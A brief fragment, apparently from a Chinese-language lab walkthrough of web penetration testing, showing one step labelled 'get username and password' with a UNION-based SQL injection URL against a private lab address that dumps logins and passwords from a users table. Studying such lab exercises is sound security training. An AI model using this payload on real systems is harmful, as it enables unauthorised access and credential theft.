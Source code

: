 ![image](15.jpg)

f、获取用户名和密码：```http://10.0.2.10/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users```
